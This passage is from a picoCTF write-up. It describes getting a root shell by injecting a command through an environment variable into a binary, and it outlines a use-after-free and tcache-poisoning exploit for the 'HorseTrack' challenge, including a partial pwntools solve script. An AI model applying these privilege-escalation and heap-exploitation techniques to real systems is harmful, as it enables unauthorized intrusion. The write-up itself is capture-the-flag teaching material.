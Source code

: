 After connecting to the ssh instance it shows this binary file
![image](https://user-images.githubusercontent.com/113513376/229088006-25f77194-f7d7-4b2c-9a9c-6fd7a2ff5f7a.png)

Running it asks to set the SECRET_DIR environment variable
![image](https://user-images.githubusercontent.com/113513376/229088835-33c6ebfc-9dee-4f6a-b7b2-81f3f7b81f12.png)

So i set it to /root
![image](https://user-images.githubusercontent.com/113513376/229088304-d12ef8cc-4672-4203-b1b9-1c2598d80c01.png)
And after running it, it shows the list of files in root directory

So its likely doing ls then getenv(SECRET_DIR) 

I searched for command injection in environment variable and got [Resource](https://int0x33.medium.com/day-29-set-user-id-environment-variable-injection-path-user-for-linux-priv-esc-ea6c0adc19b8)

Trying it works and we get shell as root
![image](https://user-images.githubusercontent.com/113513376/229088997-659875b6-3c93-4b9f-b747-d92f2e41ede4.png)

<h3> HorseTrack </h3>
![image](https://user-images.githubusercontent.com/113513376/228821375-eda5f850-5ea6-4a90-86dd-426bc072e4f4.png)

After downloading the binary i ran it to get an idea of what it does
![image](https://user-images.githubusercontent.com/113513376/229089970-60011c18-994a-4269-9401-3e8d75e9a773.png)

From the challenge description we can tell its a heap sort of challenge and its likely UAF since i noticed most pwn heap chall pico ctf brings are based on UAF

After playing with the binary and understanding it, I concluded that for us to exploit this binary we're going to advantage of tcache poisoning with a UAF vulnerability

Here's my exploit mechanism

```
1. add_horse() .. allocates buffer
2. remove_horse() .. frees buffer
3. move_horse() ...
4. And finally tcache poisoning attack to have malloc() return an arbritary pointer to a target memory location. Overwritting the free GOT entry with system with a horse named /bin/sh
```

Here's my solve script

```
#!/usr/bin/env python3

from pwn import *

LOCAL = True  # Set to False to connect to the remote server

if LOCAL:
    r = process('./vuln')
else:
    r = remote('saturn.picoctf.net', 63578)

def edit_horse(idx, data, spot):
    r.sendlineafter(b'Choice: ', b'0')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())
    r.sendlineafter(b'Enter a string of 16 characters: ', data)
    r.sendlineafter(b'New spot? ', str(spot).encode())

def add_horse(idx, size, data):
    r.sendlineafter(b'Choice: ', b'1')
    r.sendlineafter(b'Stable index # (0-17)? ', str(idx).encode())
    r.sendlineafter(b'Horse name length (16-256)? ', str(size).encode())
    r.sendlineafter(b'characters: ', data)

```